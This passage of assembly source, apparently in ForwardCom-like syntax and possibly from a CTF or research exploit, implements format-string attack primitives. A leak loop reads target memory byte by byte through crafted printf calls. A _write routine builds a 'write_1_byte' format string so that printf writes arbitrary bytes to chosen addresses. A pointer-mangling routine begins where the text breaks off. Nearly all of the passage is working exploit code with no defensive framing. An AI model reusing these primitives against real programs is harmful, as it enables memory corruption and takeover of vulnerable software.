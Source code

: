 ```asm
    int64 r0 = address([fmt_leak_str])
    call _printf
    
    // store lekaed byte
    int64 r0 = r0 & 0xFF
    int8 [r18] = r0

    // prepare write zero
    int64 r1 = address([parlist])
    int64 [r1] = r17
    int64 r0 = address([clear_byte])
    call _printf

    int64 r19 = r19 - 1
} while(int64 r19 > 0) 

// write back value, leaked byte for byte
int64 r0 = r17
int64 r1 = r18
int64 r2 = r20
call _write

return
_leak_efficient end


_write function public
// r0: dst
// r1: src
// r2: length

// interal register assignemnt
// r16 = remaining length
// r17 = cur src pointer
// r18 = cur dst pointer

int64 r16 = r2 
int64 r17 = r1
int64 r18 = r0

do {
    // load src byte
    int64 r0 = 0
    int8 r2 = [r17]

    // put cur dst addr in parlist
    int64 r1 = address([parlist])
    int64 [r1] = r18

    // calculate format string
    int64 r0 = address([write_1_byte])
    int64 r0 = r0 - r2 + 256
    call _printf

    int64 r16 = r16 - 1
    int64 r17 = r17 + 1
    int64 r18 = r18 + 1
} while (int64 r16 >= 0)

return
_write end

_mangle_pointer function public
```